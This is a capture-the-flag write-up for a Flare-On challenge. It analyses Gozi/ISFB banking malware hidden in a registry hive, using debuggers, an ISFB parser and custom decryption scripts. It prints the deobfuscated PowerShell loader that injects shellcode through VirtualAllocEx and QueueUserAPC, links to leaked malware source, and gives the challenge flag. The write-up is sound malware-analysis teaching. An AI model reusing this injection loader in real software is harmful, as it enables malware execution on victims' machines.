# Challenge 11 - rabbithole

For this challenge we are provided only with the file `NTUSER.dat`, and the suggestion that the computer it was extracted from was infected with modified "banking" malware. If we poke around in its registry entries, we discover a large BASE64 string encoded in it, which it appears to decode then execute:



Decoding the BASE64 strings reveal the following powershell script:
```powershell
function hjmk
{
	[System.Convert]::FromBase64String($args[0]);
};
[byte[]] $rpl = hjmk("6feZAAA0 ... AAAAAAAAAAAA");

function geapmkxsiw
{
	$kjurpkot=hjmk($args[0]);
	[System.Text.Encoding]::ASCII.GetString($kjurpkot);
};

iex(geapmkxsiw("DQokY3Fs ... cnU7DQo="));
iex(geapmkxsiw("DQoNCiRq ... Cn0NCn=="));

```

The two BASE64-encoded commands it runs using `iex` are below. Note that obfuscated variable names have been cleaned up

```powershell
# -------- PSH.1 --------
$imports1 = "
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentThreadId();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr OpenThread(uint nopeyllax, uint itqxlvpc, IntPtr weo);`n
[DllImport(`"kernel32`")]`npublic static extern uint QueueUserAPC(IntPtr lxqi, IntPtr qlr, IntPtr tgomwjla);`n
[DllImport(`"kernel32`")]`npublic static extern void SleepEx(uint wnhtiygvc, uint igyv);";

$NET1 = Add-Type -memberDefinition $imports1 -Name 'alw' -namespace eluedve -passthru;

$dryjmnpqj = "ffcx";
$imports2 = "
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentProcess();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr VirtualAllocEx(IntPtr wasmhqfy, IntPtr htdgqhgpwai, uint uxn, uint mepgcpdbpc, uint xdjp);";

$NET2 = Add-Type -memberDefinition $imports2 -Name 'pqnvohlggf' -namespace rmb -passthru;

# -------- PSH.2 --------
$jky = "epnc";

# THREAD_SET_CONTEXT (0x0010)
$thread = $NET1::OpenThread(16, 0, $NET1::GetCurrentThreadId());

# PAGE_EXECUTE_READWRITE (0x40)
if($buffer = $NET2::VirtualAllocEx($NET2::GetCurrentProcess(), 0, $rpl.Length, 12288, 64))
{
	[System.Runtime.InteropServices.Marshal]::Copy($rpl, 0, $buffer, $rpl.length);
	if($NET1::QueueUserAPC($buffer, $thread, $buffer))
	{
		$NET1::SleepEx(5, 3);
	}
}

```

Now we can just save the powershell script file and execute it. Getting a breakpoint on the code being executed is as simple as looking for an `NtAllocateVirtualMemory` call with a size that matches the data (86016 bytes):


Next we can just breakpoint on the allocated memory region:



Poking around in the ASM of the program, we can see it dynamically loading libraries and functions:



The binary becomes a bit more readable once we add in function names manually, by looking up their pointer values in WinDbg:



Through more examination, we come across the following code, where `NtQueryInformationToken` is used to acquire the user SID, which is then obfuscated and stored as a key and referenced later:



Using WinDbg we can output the values it has read and compare them to the actual SID values on the current VM: 





The program is reading the SID for the `Me` user, and the obfuscated key is stored on a heap at offset `78h`:



A bit later this SID value is put onto a new heap at offset `8h`:





And finally, it is referenced in a string generator:




What does this all mean? Process Monitor shows some attempts the program was making to read registry keys, but they all failed and the program ceased execution. Let's look up the SID for the user inside the `NTUSER.dat` file and replace the SID value the program is using:



SID value: `S-1-5-21-3823548243-3100178540-2044283163-1006`

Before and after replacing the SID value in the program:



becomes:



These are the entries we could see earlier, some of which contained the BASE64 powershell scripts, so now the program appears to be functioning correctly. The program now will spawn a new thread in `explorer.exe`, which itself will in turn create many threads of its own, but nothing too interesting is happening from a glance at ProcMon.

At the specified offset we can see some code where the program is comparing the beginning of memory sections with the bytes `PX`, displayed backwards due to little-endian encoding:



Searching for files with a `PX` header online yields hits relating to the Ursnif and Gozi ISFB malware family. Notably this malware family is described as a set of "banking" viruses, and also make use of the user SID and the registry during execution! That sounds like a perfect match to what we've seen so far.

The Gozi ISFB branch has actually had its source code uploaded to [GitHub](https://github.com/gbrindisi/malware/tree/667b44f64edcd1c5e8c42489b8e767813a589158/windows/gozi-isfb)..

We can dump the memory of the PX file at RBX, then use tools released for dealing with ISFB PX files:



Using an [__ISFB parser__](https://github.com/hasherezade/funky_malware_formats/tree/master/isfb_parser), we can convert the data into a valid .dll:



Now the .dll can properly load in IDA:



The `explorer.exe` threads also creates 3 more PX files, so we should dump those too:







Looking around these 4 .dll files and comparing them to the source code (over the course of more than a few days...), the most notable function calls are the following.

This function decrypts a [DS_HEADER struct](https://github.com/gbrindisi/malware/blob/667b44f64edcd1c5e8c42489b8e767813a589158/windows/gozi-isfb/crypto/sign.c#L20), which contains the MD5 and RC6 decryption key, size, and salt of the rest of the encrypted data.



This function encrypts or decrypts a block of data using the given RC6 key.



The malware tries to send several HTTP requests shown below, but the data the program is encrypting and decrypting doesn't ever seem to be too interesting.



Looking back at ProcMon, one entry that sticks out is the following CreateFile entry:



The malware attempted to read a file, but it didn't exist. We can trace the call back to the following function:



If we follow the path of this data, before anything is sent through HTTP we end up here:



The RC6 encryption is applied to the file using the key `GSPyrv3C79ZbR0k1`, then it is passed to another encryption function seen below. The final result is saved into the registry by generating a string. Note that ECX is set to 0x7F7F, which when passed to the string generator discovered earlier creates the string `DiMap`.





Checking the `DiMap` entry in the `NTUSER.dat` registry file, we come across the following:
```txt
"DiMap"=hex:04,0c,01,81,e1,85,1f,ef,8d,89,0f,ab,13,a6,a2,64,ef,f5,44,b7,10,d0,\
  a8,f5,73,1f,9c,ff,06,9f,fc,23,08,4a,11,3a,92,3c,5f,51,71,70,9b,d0,76,9f,50,\
  e7,11,a7,22,ce,48,c7,f3,69,78,72,1c,a2,05,b6,f2,31,a5,a4,ba,a6,f3,71,e0,61,\
  4b,ad,55,66,ba,34,4f,a0,49,37,e6,ef,58,57,56,07,b2,fb,13,63,bc,c2,0b,e3,d2,\
  91,f7,b7,1a,76,6a,42,e3,e8,2f,09,31,2f,4f,e2,91,44,54,ef,c7,8c,23,35,0d,25,\
  f1,e1,38,80,14,b7,f2,7c,55,38,2a,9b,b4,11,d0,63,1f,24,28,90,f1,f3,e7,c8,74,\
  46,02,ea,66,ce,1b,a9,71,cc,1b,12,b3,97,9e,05,8b,19,04,73,1f,83,e5,d7,da,f9,\
  05,83,f5,71,70,d4,59,c2,1f,d7,d4,7e,6e,77,1a,c3,58,cb,b9,34,1c,81,73,c9,de,\
  a9,64,9a,6e,fd,0f,e2,c3,3d,c3,a3
  ```
We can undo the XOR encryption first with the following Python script:
```py
dat = [0x04, 0x0c, 0x01, 0x81, 0xe1, 0x85, 0x1f, 0xef, 0x8d, 0x89, 0x0f, 0xab, 0x13, 0xa6, 0xa2, 0x64, 0xef, 0xf5, 0x44, 0xb7, 0x10, 0xd0, 0xa8, 0xf5, 0x73, 0x1f, 0x9c, 0xff, 0x06, 0x9f, 0xfc, 0x23, 0x08, 0x4a, 0x11, 0x3a, 0x92, 0x3c, 0x5f, 0x51, 0x71, 0x70, 0x9b, 0xd0, 0x76, 0x9f, 0x50, 0xe7, 0x11, 0xa7, 0x22, 0xce, 0x48, 0xc7, 0xf3, 0x69, 0x78, 0x72, 0x1c, 0xa2, 0x05, 0xb6, 0xf2, 0x31, 0xa5, 0xa4, 0xba, 0xa6, 0xf3, 0x71, 0xe0, 0x61, 0x4b, 0xad, 0x55, 0x66, 0xba, 0x34, 0x4f, 0xa0, 0x49, 0x37, 0xe6, 0xef, 0x58, 0x57, 0x56, 0x07, 0xb2, 0xfb, 0x13, 0x63, 0xbc, 0xc2, 0x0b, 0xe3, 0xd2, 0x91, 0xf7, 0xb7, 0x1a, 0x76, 0x6a, 0x42, 0xe3, 0xe8, 0x2f, 0x09, 0x31, 0x2f, 0x4f, 0xe2, 0x91, 0x44, 0x54, 0xef, 0xc7, 0x8c, 0x23, 0x35, 0x0d, 0x25, 0xf1, 0xe1, 0x38, 0x80, 0x14, 0xb7, 0xf2, 0x7c, 0x55, 0x38, 0x2a, 0x9b, 0xb4, 0x11, 0xd0, 0x63, 0x1f, 0x24, 0x28, 0x90, 0xf1, 0xf3, 0xe7, 0xc8, 0x74, 0x46, 0x02, 0xea, 0x66, 0xce, 0x1b, 0xa9, 0x71, 0xcc, 0x1b, 0x12, 0xb3, 0x97, 0x9e, 0x05, 0x8b, 0x19, 0x04, 0x73, 0x1f, 0x83, 0xe5, 0xd7, 0xda, 0xf9, 0x05, 0x83, 0xf5, 0x71, 0x70, 0xd4, 0x59, 0xc2, 0x1f, 0xd7, 0xd4, 0x7e, 0x6e, 0x77, 0x1a, 0xc3, 0x58, 0xcb, 0xb9, 0x34, 0x1c, 0x81, 0x73, 0xc9, 0xde, 0xa9, 0x64, 0x9a, 0x6e, 0xfd, 0x0f, 0xe2, 0xc3, 0x3d, 0xc3, 0xa3]

def decrypt():
	dword = 0
	dword_old = 0
	dword_xor = 0

	key = 0xfb307bfa
	rot = 4

	for i in range(0, len(dat), 4):
		dword = dat[i] | (dat[i+1] << 8) | (dat[i+2] << 16) | (dat[i+3] << 24)
		dword_old = dword

		dword ^= key
		dword ^= dword_xor
		dword_xor = dword_old

		rot ^= 4
		dword = ((dword << rot) & 0xFFFFFFFF) | (dword >> (32 - rot))

		dat[i] = dword & 0xFF
		dat[i+1] = (dword >> 8) & 0xFF
		dat[i+2] = (dword >> 16) & 0xFF
		dat[i+3] = (dword >> 24) & 0xFF

	print([hex(h) for h in dat])
	# ['0xfe', '0x77', '0x31', '0x7a', '0xf9', '0x21', '0xef', '0x52', '0x96', '0x77', '0x20', '0xbf', '0x43', '0x46', '0xd5', '0x49', '0x6', '0x28', '0xd6', '0x28', '0x5b', '0xe0', '0xc5', '0x9d', '0x99', '0xb4', '0x4', '0xf1', '0xf2', '0xb8', '0xf', '0x75', '0xf4', '0xae', '0xdd', '0xe2', '0x9', '0xd6', '0xe0', '0x7', '0x19', '0x37', '0xf4', '0x7a', '0xdc', '0x4f', '0xb9', '0xcf', '0x9d', '0x43', '0x42', '0xd2', '0x35', '0xba', '0x11', '0xce', '0xca', '0xce', '0xdf', '0x30', '0x76', '0xf8', '0xeb', '0x8d', '0x5a', '0x69', '0x78', '0x6c', '0xc3', '0xea', '0xaa', '0xc6', '0x42', '0xa7', '0x85', '0xfc', '0xb3', '0x20', '0xae', '0xd2', '0x9', '0x78', '0x99', '0xb4', '0xb1', '0xbe', '0x1', '0x38', '0x10', '0xd7', '0x75', '0x9f', '0x47', '0x2f', '0x84', '0xb2', '0x94', '0x28', '0xcc', '0xaf', '0x20', '0xc3', '0xd9', '0xea', '0x3', '0xe5', '0x75', '0xb0', '0x81', '0xc2', '0xb', '0x5', '0x5a', '0x10', '0x2b', '0xf6', '0xc2', '0x3a', '0x7b', '0x14', '0x30', '0xd2', '0xe2', '0x2f', '0xfa', '0xec', '0x5d', '0xdd', '0x30', 0x87', '0x71', '0x74', '0x2d', '0xc2', '0x19', '0x2d', '0x0', '0x83', '0x9b', '0xce', '0x22', '0x80', '0xe8', '0xcd', '0x35', '0x23', '0xb5', '0x4e', '0xf7', '0x91', '0x25', '0x32', '0xe3', '0x38', '0x27', '0xf9', '0xaa', '0xf', '0x2c', '0xf', '0x7f', '0x6c', '0x8', '0x75', '0x6', '0xd6', '0x40', '0x1a', '0x1b', '0xdf', '0xf5', '0x81', '0xa7', '0xf1', '0xf2', '0x31', '0x8f', '0x2c', '0x9c', '0x48', '0x54', '0x89', '0xd7', '0x7b', '0x8b', '0xdb', '0xfe', '0x46', '0xc0', '0x7c', '0x3c', '0xc9', '0xbe', '0x31', '0xfa', '0x6', '0x8a', '0x33', '0x75', '0x82', '0x4a', '0x2f', '0x5b', '0x83', '0x7b', '0xb5', '0xcb', '0xaf']
```

Now we just have to use the RC6 decryption method using the key found in the ASM above (`GSPyrv3C79ZbR0k1`), and we should be able to decrypt the file that was saved into the registry. The easiest way to do that is just copying the data into the debugger and letting the program do it for us, then printing the result:



Flag: `r4d1x_m4l0rum_357_cup1d1745@flare-on.com`
